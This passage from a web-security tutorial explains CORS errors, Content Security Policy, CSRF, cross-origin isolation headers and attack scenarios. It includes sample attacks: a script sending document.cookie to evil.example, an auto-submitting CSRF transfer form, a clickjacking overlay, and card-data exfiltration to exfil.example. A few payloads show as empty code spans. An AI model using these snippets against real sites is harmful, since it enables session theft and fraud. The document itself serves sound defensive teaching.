}
```

**Wildcard with credentials.** `Access-Control-Allow-Origin: *` together with `Access-Control-Allow-Credentials: true` does not work. The browser rejects it with an error saying the wildcard is not allowed when the credentials mode is `include`. The wildcard is fine, and appropriate, for genuinely public, uncredentialed data such as a public CDN or open dataset.

**Missing headers on error responses.** If your framework adds CORS headers only on success, a `500` or `404` arrives without them, and the browser reports a CORS error instead of the real status, hiding the actual bug. nginx's `add_header` has this behaviour by default: it applies only to 2xx and 3xx responses unless you add the `always` parameter.

**Multiple `Access-Control-Allow-Origin` values.** The header must contain a single origin or `*`. `Access-Control-Allow-Origin: https://a.example, https://b.example` is invalid, and so are two separate headers. The second case usually happens when both a reverse proxy and the application add CORS headers. Configure CORS in exactly one layer.

**Failed preflight.** Common causes: the router has no `OPTIONS` handler and returns `404` or `405`; auth middleware rejects the credential-less preflight with `401`; the response omits a requested header from `Access-Control-Allow-Headers`; or the preflight is redirected (for example, HTTP to HTTPS, or adding a trailing slash).

**Custom headers.** Adding `X-Request-Id` or `X-Requested-With` to every request turns all your simple requests into preflighted ones. Each header must be listed in `Access-Control-Allow-Headers`, and you pay a round trip whenever the preflight cache misses.

**Redirects.** Actual CORS requests can follow redirects, but every hop must pass the CORS check, and a redirect to a different origin after the request has already crossed origins causes the browser to send `Origin: null` on the next hop. Preflight responses cannot be redirects at all. Point clients at the final URL.

**Missing `Vary: Origin` behind caches.** If the API returns `Access-Control-Allow-Origin: https://app.example.com` for one caller and a CDN caches that response, the next caller from `https://admin.example.com` receives a cached header naming the wrong origin and fails. The reverse also happens: an image loaded in `no-cors` mode (no `Origin` header, so no CORS headers in the response) gets cached, and a later `fetch()` with `crossorigin` is served that cached response without CORS headers. **`Vary: Origin`** tells caches that the response depends on the `Origin` request header. Send it whenever the CORS headers depend on the origin, including on responses where you refuse the origin. Also check that your CDN forwards the `Origin` header to the origin server and passes `OPTIONS` requests through rather than answering or blocking them itself.

## Content Security Policy (CSP)

### CSP fundamentals

SOP and CORS govern how origins interact. They have nothing to say about code that is already running inside your origin. If an attacker gets `<script>` onto your page through cross-site scripting (XSS), that script runs with your origin's full authority: it can read the DOM, call your APIs with the user's cookies, and send data anywhere.

[Content Security Policy](https://www.w3.org/TR/CSP3/) is a policy that a document declares about itself, telling the browser **which sources of scripts, styles, images, frames and connections are legitimate**. Anything else is blocked before it loads or runs. CSP does not prevent the injection; it limits what an injection can do. Think of it as a **resource loading and execution restriction mechanism** that makes XSS much harder to exploit, not as an XSS fix.

The policy is delivered as a response header with semicolon-separated directives:

```http title="A minimal enforcing policy"
Content-Security-Policy: default-src 'self'; img-src 'self' https://images.example-cdn.net; object-src 'none'
```

A few properties of the delivery mechanism matter in practice:

- **Header delivery is preferred.** A `<meta http-equiv="Content-Security-Policy">` tag also works, but it applies only to content parsed after the tag, and the `frame-ancestors`, `report-uri` and `sandbox` directives are ignored there. Report-Only policies cannot be delivered by `<meta>` at all.
- **Multiple policies combine by intersection.** If a response carries two CSP headers (or a header and a meta tag), a resource must satisfy **every** policy. Adding a policy can only tighten, never loosen.
- **`Content-Security-Policy-Report-Only`** evaluates the policy and reports violations without blocking anything. It is how you deploy CSP safely, covered under [reporting](#csp-reporting).

### CSP directives

Each **fetch directive** controls one resource type and takes a source list. Common source expressions are `'self'` (the document's own origin), `'none'`, a host like `https://cdn.example.net` or `*.example.net`, a scheme like `https:` or `data:`, and the script-specific keywords covered in the next section.

```http title="A realistic directive set"
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-rAnd0mBase64Value' 'strict-dynamic';
  style-src 'self' https://fonts.googleapis.com;
  img-src 'self' data: https://images.example-cdn.net;
  font-src https://fonts.gstatic.com;
  connect-src 'self' https://api.example.net wss://realtime.example.net;
  frame-src https://www.youtube-nocookie.com;
  frame-ancestors 'none';
  object-src 'none';
  base-uri 'none';
  form-action 'self';
  upgrade-insecure-requests
```

(Line breaks are for readability. A real header is one line.)

- **`default-src`**: the fallback for most fetch directives that are not specified.
- **`script-src`**: which scripts may execute: external `<script src>`, inline `<script>` blocks, inline event handlers, `javascript:` URLs, and `eval()`-like APIs. It is the directive that matters most for XSS. CSP3 adds `script-src-elem` (script elements) and `script-src-attr` (event handler attributes) for finer control, and both fall back to `script-src`.
- **`style-src`**: stylesheets, `<style>` blocks and `style` attributes. CSS injection can exfiltrate data through attribute selectors and background-image URLs, so it is worth restricting even though it is lower risk than script.
- **`img-src`**: images, including favicons. Allowing `data:` here is common and low risk.
- **`font-src`**: `@font-face` sources.
- **`connect-src`**: URLs that script can connect to through `fetch()`, `XMLHttpRequest`, `WebSocket`, `EventSource` and `navigator.sendBeacon()`. This is your main exfiltration control. An injected script that can read data but cannot send it anywhere does far less damage. It is not a complete one: navigation and other channels can still carry data out.
- **`frame-src`**: which URLs **this page may load inside its own iframes**. Falls back to `child-src`, then `default-src`.
- **`frame-ancestors`**: which origins **may embed this page** in a frame. It is the clickjacking defence and the modern replacement for `X-Frame-Options`. It is enforced on the embedded page's response, header only.
- **`object-src`**: `<object>` and `<embed>`. Set it to `'none'` as these elements have historically been a way to run script outside `script-src`.
- **`base-uri`**: which URLs a `<base href>` element may set. Without it, an injected `<base href="https://evil.example/">` silently redirects every relative script URL on the page.
- **`form-action`**: which URLs forms may submit to. It limits injected phishing forms that post credentials to an attacker.
- **`upgrade-insecure-requests`**: rewrites `http:` subresource URLs (and same-origin navigations) to `https:` before fetching. Useful during HTTPS migrations to avoid mixed content.

**`frame-src` and `frame-ancestors` point in opposite directions.** On `app.example.com`, `frame-src https://www.youtube-nocookie.com` means "I may embed YouTube". `frame-ancestors 'none'` means "nobody may embed me". They are set on different responses and protect different parties.

The fallback rules are the part people get wrong most often:

| Directive                                                                            | Falls back to                                      |
| ------------------------------------------------------------------------------------ | -------------------------------------------------- |
| `script-src-elem`, `script-src-attr`                                                 | `script-src`, then `default-src`                   |
| `style-src-elem`, `style-src-attr`                                                   | `style-src`, then `default-src`                    |
| `img-src`, `font-src`, `connect-src`, `media-src`, `object-src`, `manifest-src`      | `default-src`                                      |
| `frame-src`                                                                          | `child-src`, then `default-src`                    |
| `worker-src`                                                                         | `child-src`, then `script-src`, then `default-src` |
| `base-uri`, `form-action`, `frame-ancestors`, `sandbox`, `upgrade-insecure-requests` | **No fallback.** Unset means unrestricted.         |

So `default-src 'none'` on its own still allows any `<base>` tag, any form target and any framing. Those directives must be set explicitly.

### Inline scripts and script restrictions

An XSS payload is almost always inline: `<script>steal()</script>` or ``. The browser cannot tell an inline script the developer wrote from one an attacker injected, because both arrive in the same HTML. So once a page has a `script-src` (or `default-src`) directive, **inline scripts, inline event handlers, `javascript:` URLs and `eval()` are all blocked by default.** Everything else in this section is about safely granting exceptions.

**`'unsafe-inline'`** allows all inline scripts again, and therefore allows injected ones. With it, `script-src` gives almost no XSS protection. The name is a warning.

**Nonces** mark specific inline or external scripts as trusted. The server generates a fresh, unguessable random value for every response (at least 128 bits, base64-encoded), puts it in the header, and adds it as an attribute to each legitimate script tag:

```http title="Nonce-based policy"
Content-Security-Policy: script-src 'nonce-4AEemGb0xJptoIGFP3Nd'; object-src 'none'; base-uri 'none'
```

```html title="Matching markup"
<script nonce="4AEemGb0xJptoIGFP3Nd">
  window.__APP_CONFIG__ = { apiBase: '/api' };
</script>
<script nonce="4AEemGb0xJptoIGFP3Nd" src="/assets/app.js"></script>

<!-- An injected script has no valid nonce, so it is blocked: -->
<script>
  fetch('https://evil.example/?c=' + document.cookie);
</script>
```

An attacker who injects markup cannot predict the nonce, so their script does not run. The nonce must change on every response, which means **nonces need server-side rendering or an edge function** that rewrites each response. A nonce baked into a static HTML file or a cached page is just a static password. Browsers also hide the nonce from the DOM (`script.getAttribute('nonce')` returns an empty string) to make it harder for injected markup or CSS to steal.

**Hashes** suit static sites that cannot generate per-response nonces. You allow a specific inline script by the base64-encoded SHA-256, SHA-384 or SHA-512 hash of its exact text content, including whitespace:

```shell title="Computing a script hash"
printf '%s' "console.log('app booted');" | openssl dgst -sha256 -binary | openssl base64
```

```http title="Hash-based policy"
Content-Security-Policy: script-src 'sha256-k4xdkyik1dnJn1zhOlTToX8d+VFCtDBIauPEWOcwFxE='; object-src 'none'; base-uri 'none'
```

Any change to the script, even a single space, changes the hash and blocks it, which makes hashes a good fit for build-time tooling.

**`'strict-dynamic'`** solves the problem of scripts that load other scripts. Tag managers, analytics loaders and code-splitting bundlers create `<script>` elements at runtime, and keeping an allowlist of every host they touch is impractical. With `'strict-dynamic'`, any script trusted by nonce or hash may load further scripts with `document.createElement('script')`, and those inherit the trust. Scripts inserted by the parser (including through `document.write()` or `innerHTML`) do not. In browsers that support it, `'strict-dynamic'` also **ignores** host allowlists, `'self'` and `'unsafe-inline'`, which makes this backward-compatible policy possible:

```http title="Strict CSP, with fallbacks for older browsers"
Content-Security-Policy:
  script-src 'nonce-4AEemGb0xJptoIGFP3Nd' 'strict-dynamic' https: 'unsafe-inline';
  object-src 'none';
  base-uri 'none'
```

A modern browser sees the nonce and `'strict-dynamic'`, and ignores `https:` and `'unsafe-inline'`. A browser supporting only CSP1 ignores what it does not understand and falls back to `https: 'unsafe-inline'`, which is weak but does not break the page. In browsers that support nonces, `'unsafe-inline'` is already ignored once a nonce or hash is present. This is the approach recommended by web.dev's [Mitigate XSS with a strict CSP](https://web.dev/articles/strict-csp).

**External scripts** are allowed by URL match: `script-src 'self' https://cdn.example.net` permits `<script src="https://cdn.example.net/lib.js">`. **Event handler attributes** like `onclick="..."` cannot carry a nonce. They are blocked unless you use `'unsafe-inline'`, or `'unsafe-hashes'` plus a hash of the handler's text. Move them to `addEventListener()` instead. Frameworks like React already attach handlers this way, so a React app is usually close to compatible.

**Why host allowlists weaken policies.** A policy like `script-src 'self' https://cdn.jsdelivr.net https://www.google.com` looks strict but is often bypassable. Allowed hosts that serve arbitrary user-published files (public npm CDNs), JSONP endpoints that reflect a callback name into executable JavaScript, or old versions of libraries like AngularJS that evaluate templates in the DOM can all be used to run attacker-controlled code from an "allowed" origin. Google's [CSP Is Dead, Long Live CSP!](https://research.google/pubs/csp-is-dead-long-live-csp-on-the-insecurity-of-whitelists-and-the-future-of-content-security-policy/) study (2016) found that the large majority of allowlist-based policies deployed on the web were bypassable this way, which is what motivated nonce-and-`'strict-dynamic'` policies. Wildcards like `https:` or `*` in `script-src` give essentially no protection.

### CSP and XSS

XSS comes in three broad forms, distinguished by where the payload enters and where it is turned into code:

- **Reflected XSS**: the payload is in the request (a query parameter, a path segment) and the server echoes it into the HTML response without encoding. The attacker delivers it through a crafted link.
- **Stored XSS**: the payload is saved (a comment, a profile name, an uploaded file name) and later rendered unencoded to other users. It needs no link and hits everyone who views the page.
- **DOM-based XSS**: the payload never needs to touch the server. Client-side code reads attacker-controlled data (`location.hash`, `postMessage` data, `localStorage`) and passes it to a **sink** that interprets it as HTML or code: `innerHTML`, `outerHTML`, `document.write()`, `eval()`, `setTimeout(string)`, `element.setAttribute('href', ...)` with a `javascript:` URL, or React's `dangerouslySetInnerHTML`.

```js title="A DOM-based XSS sink"
// https://app.example.com/#
const name = decodeURIComponent(location.hash.slice(1));
document.getElementById('greeting').innerHTML = `Hello, ${name}`; // sink
```

`<script>` tags inserted through `innerHTML` do not execute, but event handler attributes on other elements do, so the `onerror` payload above runs.

CSP restricts the **execution** step in all three cases. The injected `onerror` handler and the injected `<script>` both lack a nonce, so the browser refuses to run them and reports a violation. `connect-src` limits where a payload that does run can send data. `base-uri`, `object-src` and `form-action` close side doors.

But CSP cannot replace output encoding and sanitization:

- **HTML injection without script is still an attack.** An injected `<form action="https://evil.example/login">` with a convincing password field, or markup that hides your real UI, does not need JavaScript. `form-action` helps with one case, but not all.
- **CSP cannot fix logic.** If your own trusted script reads a URL parameter and passes it to `eval()`, you have allowed `'unsafe-eval'`, or your trusted bundle builds a script URL from user input, CSP sees a trusted script doing what it was told.
- **Policies drift.** One `'unsafe-inline'` added during an incident, or a new allowlisted CDN, and the protection is gone. Deployment gaps such as an error page served without the header are common.
- **Browser support and bypass research keep moving.** CSP is a second line of defence.

The first line remains **contextual output encoding** (React's JSX text escaping, server templates that auto-escape), **sanitization** of any HTML you must render (DOMPurify or the emerging HTML Sanitizer API), and avoiding dangerous sinks. For DOM XSS specifically, the `require-trusted-types-for 'script'` CSP directive enables **Trusted Types**, which makes sinks like `innerHTML` reject plain strings and accept only values produced by a policy you define. Chromium shipped it first; check current support in other browsers before relying on it. The OWASP [Cross Site Scripting Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) covers encoding rules per context.

### CSP reporting

A policy that breaks your production checkout page will be removed within the hour, so CSP is rolled out in stages, using reports to find out what the policy would break.

**`Content-Security-Policy-Report-Only`** takes the same syntax as the enforcing header but never blocks. You can send both headers at once: enforce a policy you trust while trialling a stricter one in report-only mode.

Reports go to an endpoint you control, using one of two mechanisms:

- **`report-uri`** (legacy, deprecated in CSP3 but still widely supported) takes a URL. The browser POSTs a JSON document with `Content-Type: application/csp-report`, containing a `csp-report` object with fields like `document-uri`, `violated-directive`, `effective-directive`, `blocked-uri`, `original-policy`, `disposition` and sometimes a `script-sample`.
- **`report-to`** names an endpoint group defined by the [Reporting API](https://developer.mozilla.org/en-US/docs/Web/API/Reporting_API) through the `Reporting-Endpoints` response header. Reports arrive as `Content-Type: application/reports+json`, an array of objects with `type: "csp-violation"` and a `body` containing camelCase fields such as `documentURL`, `blockedURL`, `effectiveDirective`, `originalPolicy`, `disposition`, `sourceFile`, `lineNumber` and `sample`. Browsers may batch and delay these.

Browser support for `report-to` has lagged behind `report-uri` in some engines, so the usual practice is to send both. Per the spec, a browser that supports `report-to` ignores `report-uri` when both are present.

```http title="Report-Only policy with both reporting mechanisms"
Reporting-Endpoints: csp-endpoint="https://app.example.com/csp-reports"
Content-Security-Policy-Report-Only: script-src 'nonce-4AEemGb0xJptoIGFP3Nd' 'strict-dynamic'; object-src 'none'; base-uri 'none'; report-uri https://app.example.com/csp-reports; report-to csp-endpoint
```

In page script, the `securitypolicyviolation` event fires on the document for every violation, which is useful during development:

```js title="Listening for violations in the page"
document.addEventListener('securitypolicyviolation', (e) => {
  console.warn('CSP', e.disposition, e.effectiveDirective, e.blockedURI, `${e.sourceFile}:${e.lineNumber}`);
});
```

Expect noise. Browser extensions inject scripts and trigger violations with `blocked-uri` values like `chrome-extension` or with source files you do not own. Group reports by `effectiveDirective` and `blockedURL`, ignore extension schemes, and look for clusters that correspond to your own code. A safe production rollout typically looks like this:

1. Inventory scripts: inline blocks, event handler attributes, third-party tags.
2. Refactor inline handlers to `addEventListener()`, and add nonce support to your server rendering.
3. Ship the strict policy as **Report-Only** and watch reports for one or two weeks.
4. Fix or explicitly allow legitimate violations.
5. Switch to the **enforcing** header, keeping reporting enabled to detect regressions and real attacks.

## SOP vs CORS vs CSP

The three mechanisms are often blamed for each other's errors, so it is worth putting them side by side.

| Aspect                    | Same-Origin Policy                             | CORS                                                                             | CSP                                                                                                                                                             |
| ------------------------- | ---------------------------------------------- | -------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Problem addressed         | One origin reading another origin's data       | Legitimate cross-origin reads that SOP would block                               | Untrusted code and resources running inside your own page                                                                                                       |
| Default state             | Always on                                      | Off; absence means SOP applies                                                   | Off; absence means no restrictions                                                                                                                              |
| Who configures it         | Nobody; built into the browser                 | The **resource server**, through response headers                                | The **document's server**, through response headers                                                                                                             |
| Whose data is protected   | The target origin's                            | The target origin's (by relaxing protection selectively)                         | The document's own users and data                                                                                                                               |
| Enforced by               | Browser                                        | Browser, based on server headers                                                 | Browser, based on the document's headers                                                                                                                        |
| Affects                   | Reading responses, frame DOMs, storage, pixels | `cors`-mode fetches: `fetch()`, XHR, `crossorigin` assets, fonts, module scripts | Loading scripts, styles, images, frames, connections, form targets, framing by others                                                                           |
| Blocks sending a request? | No (it blocks reading)                         | Only a failed preflight stops the real request                                   | Yes: a blocked resource is never fetched                                                                                                                        |
| Typical misconfiguration  | Relying on it to stop CSRF                     | Reflecting origins with credentials; missing `Vary: Origin`                      | `'unsafe-inline'`, broad allowlists, missing `base-uri`/`object-src`                                                                                            |
| Typical error message     | `SecurityError` on frame or canvas access      | "blocked by CORS policy" in the console                                          | "Executing inline script violates..." or "Loading the script '...' violates the following Content Security Policy directive" (older versions: "Refused to ...") |

A few scenarios make the boundaries concrete:

- **A `fetch()` from `app.example.com` to `api.example.net` fails with a CORS error.** CORS (the API's headers) decides this. Changing the app's CSP will not help, unless the error is actually a `connect-src` violation, which looks different in the console.
- **Both an API and a page's CSP are involved.** `app.example.com` with `connect-src 'self'` calls `api.example.net`. CSP blocks it before any request is sent, and the API's CORS headers are irrelevant. With the CSP fixed, CORS then decides whether the response is readable. Both checks must pass.
- **An injected script on `app.example.com` calls `app.example.com/api/me`.** This is a same-origin request, so neither SOP nor CORS applies. Only CSP (stopping the script from running, or `connect-src` stopping exfiltration) and server-side defences can help.
- **`evil.example` embeds `app.example.com` in an invisible iframe.** SOP stops `evil.example` from reading the frame, but not from layering a fake UI over it. The app's `frame-ancestors` directive is what refuses the embedding.

## Other browser security mechanisms

### CSRF

Cross-site request forgery exploits **ambient authority**: the browser attaches cookies to requests based on the destination, not on which page initiated them. If `bank.example` authenticates with cookies, a page on `evil.example` can submit a form to `bank.example/transfer`, and the request arrives with the user's session.

```html title="A classic CSRF page on evil.example"
<form id="f" method="POST" action="https://bank.example/transfer">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="5000" />
</form>
<script>
  document.getElementById('f').submit();
</script>
```

A form POST is a simple request, so there is no preflight, and SOP does not stop requests. The attacker never reads the response and does not need to.



The defences, roughly in the order of the [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html):

- **`SameSite` cookies.** `SameSite=Lax` (or the Chromium default for cookies without the attribute) stops cookies on cross-site POSTs, iframes and fetches. `Strict` also stops them on cross-site top-level links. It is a strong baseline, but it is a **site** check: a vulnerable or attacker-controlled subdomain on the same registrable domain is same-site and bypasses it entirely. Browser defaults differ, so set the attribute explicitly.
- **CSRF tokens.** A secret, per-session or per-request value embedded in forms or sent as a header, which the server verifies. The attacker's page cannot read it, because SOP blocks reading the target's pages. The synchronizer-token and signed double-submit-cookie patterns are the standard variants.
- **`Origin` and `Referer` validation.** Browsers send `Origin` on all CORS requests and on every request whose method is not `GET` or `HEAD`, including cross-site form POSTs. The server rejects state-changing requests from untrusted origins. Handle `Origin: null` as untrusted.
- **Fetch Metadata.** Modern browsers send `Sec-Fetch-Site` (`same-origin`, `same-site`, `cross-site` or `none`), `Sec-Fetch-Mode` and `Sec-Fetch-Dest` on every request. A resource isolation policy that rejects `cross-site` requests except top-level `GET` navigations stops CSRF and several cross-site leak attacks. Note that `same-site` is distinct from `same-origin` here, which lets you treat sibling subdomains with suspicion. See web.dev's [Protect your resources from web attacks with Fetch Metadata](https://web.dev/articles/fetch-metadata).

```js title="A Fetch Metadata resource isolation policy"
function isAllowed(req) {
  const site = req.headers['sec-fetch-site'];
  if (!site) return true; // older browsers do not send it; rely on other defences
  if (site === 'same-origin' || site === 'none') return true; // own pages, or typed URL / bookmark
  // Allow simple top-level navigations from other sites (links), nothing else.
  return (
    req.method === 'GET' && req.headers['sec-fetch-mode'] === 'navigate' && req.headers['sec-fetch-dest'] === 'document'
  );
}
```

**Why CORS is not CSRF protection:** CORS controls whether a script may read a response. CSRF does not need to read anything. A cross-origin form POST is never preflighted and is delivered regardless of your CORS headers. Even for `fetch()`, a `text/plain` POST goes out without a preflight.

### CORP

**`Cross-Origin-Resource-Policy`** (CORP) lets a resource refuse to be **embedded** by other origins, even in `no-cors` mode where CORS does not apply. It is a response header with three values:

- `same-origin`: only same-origin documents may load this resource.
- `same-site`: same-site documents may load it.
- `cross-origin`: any origin may load it (an explicit opt-in, needed under COEP).

```http title="Protecting a private image from cross-site embedding"
HTTP/1.1 200 OK
Content-Type: image/png
Cross-Origin-Resource-Policy: same-site
```

If `evil.example` puts `` on its page, the browser blocks the response before the image ever reaches the evil page's renderer process. That matters for Spectre-style attacks, which could otherwise read the bytes of a loaded resource from process memory.

**CORP versus CORS:** CORS is an opt-in that _grants_ read access to `cors`-mode requests. CORP is a restriction that _denies_ embedding for `no-cors` requests. They solve different problems. A resource can have both, and for `cors`-mode requests the CORS check is what applies.

### COEP

**`Cross-Origin-Embedder-Policy`** (COEP) is set by a document, and it constrains **what that document may embed**. With `require-corp`, every cross-origin subresource must either be loaded with CORS (and pass the check) or carry a `Cross-Origin-Resource-Policy` header that permits the embedding. Cross-origin iframes must also opt in (they need CORP, and documents nested in them must set COEP too). Anything that does not opt in is blocked.

```http title="A document that requires opt-in from everything it embeds"
Cross-Origin-Embedder-Policy: require-corp
```

The alternative value `credentialless` relaxes this: cross-origin `no-cors` requests are allowed without CORP, but are sent **without credentials** (no cookies), so the response cannot contain user-specific data. Support for `credentialless` is not universal, so check before relying on it. A `Cross-Origin-Embedder-Policy-Report-Only` header lets you find resources that would break.

COEP is the inverse of CORP: CORP is the resource saying "who may embed me", COEP is the embedder saying "I will only embed things that agreed".

### COOP

**`Cross-Origin-Opener-Policy`** (COOP) controls whether a document shares a **browsing context group** with the windows that open it or that it opens. Normally, `window.open()` gives the opener a handle to the popup and gives the popup `window.opener`, even across origins. Those handles allow the limited cross-origin access listed earlier: navigating the other window, counting its frames, posting messages. That is enough for cross-site leak and tabnabbing attacks, and it forces both pages into a state where they may share a process.

- `unsafe-none` (default): no isolation.
- `same-origin`: the document is placed in a new browsing context group unless the other document is same-origin and also sets `same-origin`. Cross-origin openers see the popup as closed, and the popup's `window.opener` is `null`.
- `same-origin-allow-popups`: like `same-origin`, but keeps references to popups the document opens, as long as they do not set COOP themselves. This is the usual choice for pages that use OAuth or payment popups.
- A newer value, `noopener-allow-popups`, always severs the opener relationship. It has more limited browser support.

```http title="Severing cross-origin window relationships"
Cross-Origin-Opener-Policy: same-origin
```

COOP is the only mechanism here that is about **window relationships** rather than resource loading.

### Cross-origin isolation

In 2018, Spectre showed that script able to measure time precisely enough could read memory within its own process, including other origins' data loaded into that process. Browsers responded by disabling `SharedArrayBuffer` (which can be used to build a nanosecond-resolution timer) and coarsening `performance.now()`. Chrome on desktop re-enabled it on the strength of Site Isolation, but by 2021 all major browsers had settled on offering those features only for documents that prove they share their process with nothing they did not consent to. That state is **cross-origin isolation**:

- **COOP `same-origin`** guarantees that no cross-origin window shares the browsing context group.
- **COEP `require-corp` or `credentialless`** guarantees that every cross-origin resource in the page either opted in or was fetched without credentials.

```http title="Enabling cross-origin isolation"
Cross-Origin-Opener-Policy: same-origin
Cross-Origin-Embedder-Policy: require-corp
```

```js title="Checking for isolation"
if (self.crossOriginIsolated) {
  const shared = new SharedArrayBuffer(1024); // available
} else {
  console.log('Not isolated: SharedArrayBuffer is unavailable');
}
```

[`crossOriginIsolated`](https://developer.mozilla.org/en-US/docs/Web/API/Window/crossOriginIsolated) gates `SharedArrayBuffer` (needed for multithreaded WebAssembly, for example in FFmpeg or SQLite ports), `performance.measureUserAgentSpecificMemory()`, and finer timer resolution. The cost is that every third-party embed must cooperate. web.dev's [Making your website "cross-origin isolated" using COOP and COEP](https://web.dev/articles/coop-coep) walks through a migration.

| Header | Set on                     | Answers the question                                     | Values                                                                            |
| ------ | -------------------------- | -------------------------------------------------------- | --------------------------------------------------------------------------------- |
| CORP   | The **resource**           | Which origins may embed me in `no-cors` mode?            | `same-origin`, `same-site`, `cross-origin`                                        |
| COEP   | The **embedding document** | Will I embed cross-origin resources that did not opt in? | `unsafe-none`, `require-corp`, `credentialless`                                   |
| COOP   | A **top-level document**   | May cross-origin windows keep a reference to me?         | `unsafe-none`, `same-origin`, `same-origin-allow-popups`, `noopener-allow-popups` |
| CORS   | The **resource**           | Which origins may read me in `cors` mode?                | `Access-Control-Allow-*` headers                                                  |

### Additional security headers

- **`Strict-Transport-Security`** (HSTS), for example `max-age=63072000; includeSubDomains; preload`, tells the browser to use HTTPS for the host for the given period, converting `http://` links internally and refusing to let users click through certificate errors. The `preload` list ([hstspreload.org](https://hstspreload.org/)) protects even the first visit.
- **`X-Content-Type-Options: nosniff`** stops the browser from guessing a response's MIME type. With it, a script or stylesheet served with the wrong `Content-Type` is refused, which stops user uploads disguised as images from being executed as scripts.
- **`X-Frame-Options`**: `DENY` or `SAMEORIGIN`. The legacy clickjacking header. `frame-ancestors` supersedes it, and browsers that support both give `frame-ancestors` precedence. Sending both is a harmless belt-and-braces measure for older clients. `ALLOW-FROM` is obsolete.
- **`Referrer-Policy`** controls how much of the current URL goes into the `Referer` header. The browser default is now `strict-origin-when-cross-origin` (full URL same-origin, origin only cross-origin, nothing on HTTPS-to-HTTP downgrades). It keeps tokens and IDs in URLs from leaking to third parties.
- **`Permissions-Policy`**, for example `camera=(), microphone=(), geolocation=(self "https://maps.example.net")`, controls which powerful features the page and its iframes may use. It limits what a compromised third-party script or embed can request.

## Real-world security scenarios

### Malicious cross-origin API access

1. **State:** `https://app.example.com` calls `https://api.example.com/v1/me`, authenticated with a `SameSite=None; Secure` session cookie. To "fix CORS errors", a developer made the API reflect the request's `Origin` and set `Access-Control-Allow-Credentials: true`.
2. **Attack:** the user visits `https://evil.example`, whose script calls `fetch('https://api.example.com/v1/me', { credentials: 'include' })`.
3. **Browser checks:** the cookie is `SameSite=None`, so it is attached (assuming the browser does not block third-party cookies). The response comes back with `Access-Control-Allow-Origin: https://evil.example` and `Access-Control-Allow-Credentials: true`.
4. **Mechanism:** CORS, misconfigured to grant every origin.
5. **Result:** the CORS check passes, and evil.example reads the user's profile. The browser did exactly what the server told it to do.
6. **Mitigation:** an exact-match origin allowlist, `Vary: Origin`, and `SameSite=Lax` cookies wherever a cross-site cookie is not required. With `Lax`, the cookie would not have been attached to the cross-site fetch at all.

### A failed CORS request in development

1. **State:** a React app on `http://localhost:5173` calls `http://localhost:8080/api/orders` with `Content-Type: application/json` and an `Authorization: Bearer ...` header.
2. **Failure:** the console shows "Access to fetch at 'http://localhost:8080/api/orders' from origin 'http://localhost:5173' has been blocked by CORS policy: Response to preflight request doesn't pass access control check: It does not have HTTP ok status."
3. **Browser checks:** the JSON content type and the `Authorization` header make this non-simple, so the browser sends `OPTIONS`. The backend's auth middleware sees no bearer token on the preflight (preflights do not carry it) and returns `401`.
4. **Mechanism:** CORS preflight.
5. **Result:** the real request is never sent.
6. **Mitigation:** handle `OPTIONS` before authentication and return `204` with `Access-Control-Allow-Origin: http://localhost:5173`, `Access-Control-Allow-Methods` and `Access-Control-Allow-Headers: Authorization, Content-Type`. Alternatively, use the dev server's proxy (Vite's `server.proxy`) so the browser sees a same-origin request, but then make sure production CORS is configured too.

### Stored XSS in a comment feed

1. **State:** a product page renders user comments through `dangerouslySetInnerHTML` to support basic formatting. The site sends `Content-Security-Policy: script-src 'nonce-...' 'strict-dynamic'; object-src 'none'; base-uri 'none'`.
2. **Attack:** a comment contains ``.
3. **Browser checks:** the image fails to load and the `onerror` handler is about to run. The browser checks `script-src` (via `script-src-attr`) and finds no `'unsafe-inline'` and no `'unsafe-hashes'`.
4. **Mechanism:** CSP.
5. **Result:** the handler is blocked, a `securitypolicyviolation` event fires, and a report is sent. The injected `` element still renders. Without CSP, the payload would have run, and even then an `HttpOnly` cookie would have kept the session ID out of `document.cookie`, although the script could still call APIs as the user.
6. **Mitigation:** the root cause is unsanitized HTML. Sanitize comment HTML with a sanitizer like DOMPurify before rendering, or store Markdown and render it with a safe renderer. Keep CSP as the backstop, and consider Trusted Types.

### Clickjacking

1. **State:** `https://bank.example/settings` has a one-click "Disable two-factor authentication" button and no framing protection.
2. **Attack:** `evil.example` loads the settings page in an iframe with `opacity: 0`, positioned over a "Claim your prize" button.

```html title="Clickjacking page on evil.example"
<style>
  iframe {
    position: absolute;
    top: 0;
    left: 0;
    width: 600px;
    height: 400px;
    opacity: 0;
    z-index: 2;
  }
  button {
    position: absolute;
    top: 210px;
    left: 160px;
    z-index: 1;
  }
</style>
<button>Claim your prize</button>
<iframe src="https://bank.example/settings"></iframe>
```

3. **Browser checks:** without `frame-ancestors` or `X-Frame-Options` on the bank's response, the browser renders the frame. SOP prevents evil.example from reading or scripting the frame, but the user's click lands on the real button. Note also that a `SameSite=Lax` or `Strict` session cookie would not be sent to this cross-site iframe, so the frame would show a logged-out page, which is a useful partial defence.
4. **Mechanism:** CSP `frame-ancestors` (or `X-Frame-Options`).
5. **Result with the fix:** given `Content-Security-Policy: frame-ancestors 'self'`, the browser refuses to render the bank page in the cross-origin frame and shows an error page in its place.
6. **Mitigation:** send `frame-ancestors 'none'` (or `'self'`) on every HTML response, plus `X-Frame-Options: DENY` for older clients, and require re-authentication for sensitive actions. See OWASP's [Clickjacking Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html).

### Third-party script compromise

1. **State:** a checkout page includes `<script src="https://cdn.widgetvendor.example/chat.js">`. Its CSP allows `script-src 'self' https://cdn.widgetvendor.example`.
2. **Attack:** the vendor's CDN is compromised and `chat.js` is replaced with code that reads card fields and posts them to `https://exfil.example`.
3. **Browser checks:** `script-src` allows the host, so the malicious script runs with the checkout page's origin. When it calls `fetch('https://exfil.example', ...)`, `connect-src` is checked.
4. **Mechanism:** CSP, with Subresource Integrity (SRI) as the missing control.
5. **Result:** the script runs, because CSP trusts the host, not the content. If `connect-src` is restricted to `'self'` and the payment processor, the `fetch()` is blocked and reported, but the attacker can still try other channels, such as navigating the page or injecting a form.
